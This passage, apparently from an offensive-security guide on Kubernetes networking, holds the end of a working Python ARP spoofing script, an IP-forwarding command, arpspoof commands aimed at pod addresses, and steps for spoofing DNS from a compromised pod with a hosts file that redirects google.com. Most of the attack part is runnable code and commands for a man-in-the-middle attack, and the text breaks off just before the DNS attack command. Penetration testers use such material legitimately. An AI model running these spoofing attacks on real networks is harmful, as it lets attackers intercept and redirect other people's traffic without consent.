 ```python:arp_spoof.py
		print("Target MAC", targetmac)
	except:
		print("Target machine did not respond to ARP broadcast")
		quit()

	try:
		gatewaymac= getmac(gatewayip)
		print("Gateway MAC:", gatewaymac)
	except:
		print("Gateway is unreachable")
		quit()
	try:
		print("Sending spoofed ARP responses")
		while True:
			spoofarpcache(targetip, targetmac, gatewayip)
			spoofarpcache(gatewayip, gatewaymac, targetip)
	except KeyboardInterrupt:
		print("ARP spoofing stopped")
		restorearp(gatewayip, gatewaymac, targetip, targetmac)
		restorearp(targetip, targetmac, gatewayip, gatewaymac)
		quit()

if __name__=="__main__":
	main()

# To enable IP forwarding: echo 1 > /proc/sys/net/ipv4/ip_forward
```

### ARPSpoof

```bash
apt install dsniff
arpspoof -t 172.17.0.9 172.17.0.10
```

## DNS Spoofing

As it was already mentioned, if you **compromise a pod in the same node of the DNS server pod**, you can **MitM** with **ARPSpoofing** the **bridge and the DNS** pod and **modify all the DNS responses**.

You have a really nice **tool** and **tutorial** to test this in [**https://github.com/danielsagi/kube-dnsspoof/**](https://github.com/danielsagi/kube-dnsspoof/)

In our scenario, **download** the **tool** in the attacker pod and create a **file named `hosts`** with the **domains** you want to **spoof** like:

```
cat hosts
google.com. 1.1.1.1
```

Perform the attack to the ubuntu-victim machine:
